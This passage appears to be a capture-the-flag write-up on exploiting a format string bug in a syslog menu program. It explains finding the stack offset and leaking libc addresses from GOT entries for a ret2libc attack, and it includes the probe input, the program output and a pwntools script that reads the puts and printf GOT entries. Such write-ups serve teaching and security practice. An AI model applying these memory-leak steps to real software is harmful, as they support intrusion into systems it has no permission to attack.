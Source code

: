 There is no `system` on the `GOT`, so we needed to perform a `ret2libc` attack.

Since we are not given the `libc` version, we would need to figure it out ourselves.

The way I did it is by gaining an arbitrary read from our `FSB`, and then reading several entries from the `GOT`.

Then we can use a tool like `https://libc.rip/` which can find the correct libc version out of a few symbols addresses.

In order to gain an arbitrary read out of an `FSB`?

In C, when you want to use a string you use a pointer to the start of the string - this is essentially a value that represents a memory address.

So when you use the %s format specifier, it's the pointer that gets passed to it.

That means instead of reading a value of the stack, you read the value in the memory address it points at.

Firstly, since the string `s` in in the stack, we would need to understand what is its offset so we can use `%{offset}$s` in order to read from it.

I have tried to call the `syslog` function with the string `AAAAAAAA|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p`, and then I saw that `0x4141414141414141` is the 7'th `%p` specifier:

```
Enter the message to write to syslog: $ AAAAAAAABBBBBBBB|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p

========== MENU ==========
1. Write input to syslog
2. Read syslog
3. Exit
==========================

Enter your choice: $ 2
                                      (1)           (2)       (3)   (4)          (5)              (6)              (7)
Oct 22 19:25:50 itay bin: AAAAAAAA|0xcd20ef86|0x7fd09a914992|(nil)|(nil)|0x4f4c000000000001|0x4f464e495f47|0x4141414141414141|0x4242424242424242|0x257c70257c70257c|0x7c70257c70257c70|0x70257c70257c7025
```

Now, in order to reach it we will first write our specifier, we will enter `%8$sAAAA + p64(addr)`.

Its 8 and not 7, is because we first enter 8 bytes, and then we reach the address, so its another quadword.

We add `AAAA` is because we need to pad it so that it will be 8 byte aligned.

Here is how I leaked `puts` and `printf` by reading their `GOT` entries:

```py
write(b"AAAA%8$s" + p64(elf.got.puts))

p.recvuntil("choice: ")
p.sendline("2")
p.recvuntil('AAAA')
puts = u64(p.recvn(6).ljust(8, b'\x00'))

print("puts", hex(puts))

write(b"BBBB%8$s" + p64(elf.got.printf))

p.recvuntil("choice: ")
p.sendline("2")
p.recvuntil('BBBB')
printf = u64(p.recvn(6).ljust(8, b'\x00'))

print("printf", hex(printf))

```